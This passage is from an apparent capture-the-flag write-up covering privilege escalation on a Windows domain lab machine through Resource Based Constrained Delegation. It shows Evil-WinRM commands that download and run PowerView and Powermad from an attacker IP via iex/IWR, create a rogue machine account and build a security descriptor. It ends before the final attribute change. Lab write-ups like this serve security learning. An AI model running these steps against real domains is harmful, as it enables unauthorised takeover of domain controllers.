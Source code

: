 # Privilege escalation

Checking the groups of our owned user, we can see that are part of Shared Support Accounts. If we use bloodhound to enumerate de domain, we will see that members of this group have the right GenericAll over the DC. 

![Untitled](Support%20ea09600bc5824f3b843ad072ab8355d3/Untitled.png)

This let us perform a **Resource Based Constrained Delegation**. 

This attack allow us to impersonate any user of the domain in the machine we have privilege to write on. In this attack we will modify a constrain in the DC which will allow a new machine account created by us to impersonate any user we want in the DC.

First we import the necessary modules.

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> iex (IWR http://10.10.14.4/PowerView.ps1 -UseBasicParsing)
*Evil-WinRM* PS C:\Users\support\Documents> iex (IWR http://10.10.14.4/Powermad.ps1 -UseBasicParsing)
```

Now we create the machine and retrieve its SID.

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
[+] Machine account attackersystem added
*Evil-WinRM* PS C:\Users\support\Documents> $ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```

Now we prepare the statements to enable the impersonation in the DC.

```python
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
```

Now we modify the constrain **msds-allowedtoactonbehalfofotheridentity** to allow our new machine account to impersonate any user in the machine we have write privilege writes on.
